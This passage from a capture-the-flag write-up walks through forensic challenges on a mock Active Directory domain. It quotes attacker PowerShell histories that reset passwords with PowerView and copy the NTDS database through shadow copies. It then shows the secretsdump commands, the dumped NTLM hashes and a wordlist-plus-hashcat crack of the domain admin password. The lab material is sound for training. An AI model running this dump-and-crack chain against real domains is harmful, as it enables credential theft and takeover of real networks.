sh0uldv3_3nabl3d_s0m3_k3b3r0s_pr34th_4nd_
```

---

#### Part 3: Enumerating James's Account

Same as before, check James's history

```
┌──(kali㉿kali)-[~/ctf/Active/challenge/Users - Copy]
└─$ cat james/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt
cd C:\Users\Public\Documents
mv .\PowerView.txt .\PowerView.ps1
powershell -ep bypass
Import-Module .\PowerView.ps1
Find-DomainProcess
$NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force`
Set-DomainUserPassword -Identity 'emily' -AccountPassword $NewPassword
$NewPassword = ConvertTo-SecureString 'd0nt_us3_4ll3xtendedr1ghts}' -AsPlainText -Force`
Set-DomainUserPassword -Identity 'patrick' -AccountPassword $NewPassword
runas /User:wolvctf\patrick cmd
```


We can see in the Bloodhound output that James has `AllExtendedRigts` to both `Emily` and `Patrick`. It appears as Patrick's new password is the third part of the flag:

```
d0nt_us3_4ll3xtendedr1ghts}
```

---

#### Final flag

```
wctf{asr3pr04st3d?_sh0uldv3_3nabl3d_s0m3_k3b3r0s_pr34th_4nd_d0nt_us3_4ll3xtendedr1ghts}
```

---
## Active 3: Domain Admin


### Challenge Description

Now, it's time to figure out how this attacker obtained administrator access on our domain! To prove you have retraced the attacker's steps completely, submit the domain admin's password as the flag. It's already in the flag format.

`Users_Backup.zip`'s password is `wolvctf`

`sha256sum:709b595d63ac9660b9c67de357337ee55ffd6658412b8c5c27b35efc05617893`

[https://drive.google.com/drive/folders/11MzaiPYvosPSYlKzqqAVX_muiv5p4yQA?usp=sharing](https://drive.google.com/drive/folders/11MzaiPYvosPSYlKzqqAVX_muiv5p4yQA?usp=sharing)

### Solve

#### Obtaining Jessica's password hash

Lets pick up where we left off with part 2 and scan the newly taken over account, Patrick's


```
┌──(kali㉿kali)-[~/ctf/Active/challenge/Users - Copy]
└─$ cat patrick/Desktop/note_from_jake.txt                                                     
If you need anything backed up you can just use my account:

Password: fwa3fe8#FEwef 
```


Now, lets check Jake's

```
cat jake/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt 
```



```
┌──(kali㉿kali)-[~/ctf/Active/challenge/Users - Copy]
└─$ cat jake/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt 
cd C:\Users\Public\Downloads
whoami
cd C:\Users\jake\desktop
whoami /all > whoami.txt
type .\whoami.txt
cd C:\Users\public
cd downloads
diskshadow.exe /s script.txt
diskshadow.exe /s script.txt > shadow.txt
type .\shadow.txt
cp .\shadow.txt C:\Users\jake\desktop\shadow.txt
del shadow.txt
robocopy /b z:\windows\ntds . ntds.dit > robo.txt
type .\robo.txt
dir
del robo.txt
cp ntds.dit C:\Users\jake\downloads
del ntds.dit
cd C:\Users\jake\downloads
dir
reg save hklm\system c:\users\jake\downloads\system.hive
reg save hklm\sam C:\users\jake\downloads\sam.hive
dir
cp * C:\Users\public
del C:\Users\public\ntds.dit
del C:\Users\public\sam.hive
del C:\Users\public\system.hive
runas /User:wolvctf\jessica
runas /User:wolvctf\jessica cmd
```

We can see that they used diskshadow to perform a volume shadow copy of the NTDS, SAM hive, and SYSTEM hive. Let's use `impacket` to dump those secrets

```
impacket-secretsdump -ntds ntds.dit -system system.hive -sam sam.hive LOCAL
```

```
┌──(kali㉿kali)-[~/…/challenge/Users - Copy/jake/Downloads]
└─$ impacket-secretsdump -ntds ntds.dit -system system.hive -sam sam.hive LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x32032d8f6ff9102e4202d192c152e02a
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:1b921e44ea5dfd940c004044d4ef4cae:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: a802330d6d1dca4a57a459990af5e50e
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:1b921e44ea5dfd940c004044d4ef4cae:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:b60be13c1c27a48e5c5afc10792afeab:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:7f27814ee1fea90dc7495b265207db9d:::
mssql_service:2102:aad3b435b51404eeaad3b435b51404ee:6092ca0e60d24f30d848a5def59d4753:::
wolvctf.corp\james:4101:aad3b435b51404eeaad3b435b51404ee:4c20abe87d36b9ad715fd5671545abb5:::
wolvctf.corp\emily:4102:aad3b435b51404eeaad3b435b51404ee:5c7a26ae4c40018fa1660cc2f1d82269:::
wolvctf.corp\john:4103:aad3b435b51404eeaad3b435b51404ee:d24c1456aefeab3eb911c8015b9f6ce4:::
wolvctf.corp\patrick:4104:aad3b435b51404eeaad3b435b51404ee:0311f96ce47c5cc21529fcc8375f9c2e:::
wolvctf.corp\katherine:4105:aad3b435b51404eeaad3b435b51404ee:89218e0b151209e9d4fa0768ea72c70d:::
wolvctf.corp\Amy:4106:aad3b435b51404eeaad3b435b51404ee:4aa4474c2886f6a796bd75eebe5ebf01:::
wolvctf.corp\jessica:4107:aad3b435b51404eeaad3b435b51404ee:8fcdcffba18f392df7aa291527290aff:::
wolvctf.corp\frank:4108:aad3b435b51404eeaad3b435b51404ee:b0212745c59fcf54f06ea501cd409ff5:::
wolvctf.corp\chris:4109:aad3b435b51404eeaad3b435b51404ee:253cfc1375d39308ab1bb935b44e2010:::
wolvctf.corp\renee:4110:aad3b435b51404eeaad3b435b51404ee:9b5109ef6dbc8086ed36a90c20aa1d48:::
wolvctf.corp\peter:4111:aad3b435b51404eeaad3b435b51404ee:4f3cde005948d4e4fb232c35014ccafb:::
wolvctf.corp\dan:4112:aad3b435b51404eeaad3b435b51404ee:e9d959da74f5c7590a80d635b36705a6:::
...
```


From our bloodhound output, we know jessica is the domain admin. We want to focus on her NTLM hash:
```
wolvctf.corp\jessica:4107:aad3b435b51404eeaad3b435b51404ee:8fcdcffba18f392df7aa291527290aff:::
```




```
8fcdcffba18f392df7aa291527290aff
```

---
#### Cracking Jessica's password hash

If you want to view the raw bloodhound data, it will show the description for the `Domain Admins` Group that Jessica is a part of


```
Members who are part of this group have passwords w then a c then a t and an f, curly bracket left, 'bloodhound_is_cool_' (but all the 'o's are '0's), then a city in all lowercase appended by 3 numbers (secret only you know),  right curly bracket
```

Take a word list that has a lot of cities, as such:
https://github.com/kkrypt0nn/wordlists/blob/main/wordlists/security_question_answers/cities.txt

Lets modify the wordlist

```python
with open("cities.txt", "r") as file:
    cities = file.readlines()

formatted_cities = []
for city in cities:
    city = "wctf{bl00dh0und_is_c00l_" + city.strip().lower()
    formatted_cities.append(city)

with open("cities_wordlist.txt", "w") as file:
    for formatted_city in formatted_cities:
        file.write(formatted_city + "\n")

print("Formatted cities have been written to cities_wordlist.txt")
```

And crack using a hashcat masking rule to append 3 digits to the end of it

```
hashcat -a 6 -m 1000 jessica.hash cities_wordlist.txt "?d?d?d}"
```


```
┌──(kali㉿kali)-[~/ctf/Active]
└─$ hashcat -a 6 -m 1000 jessica.hash cities_wordlist.txt "?d?d?d}" 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-haswell-12th Gen Intel(R) Core(TM) i7-1280P, 1424/2913 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

INFO: All hashes found as potfile and/or empty entries! Use --show to display them.

Started: Wed Mar 19 01:41:52 2025
Stopped: Wed Mar 19 01:41:53 2025
                                                                                                                                                                                             
┌──(kali㉿kali)-[~/ctf/Active]
└─$ hashcat -a 6 -m 1000 jessica.hash cities_wordlist.txt "?d?d?d}" --show
8fcdcffba18f392df7aa291527290aff:wctf{bl00dh0und_is_c00l_votuporanga985}
```

Flag:

```
wctf{bl00dh0und_is_c00l_votuporanga985}
```

---
## Active Attacker POV Video Walkthrough

Video to show the attacker's POV to create the Active challenges


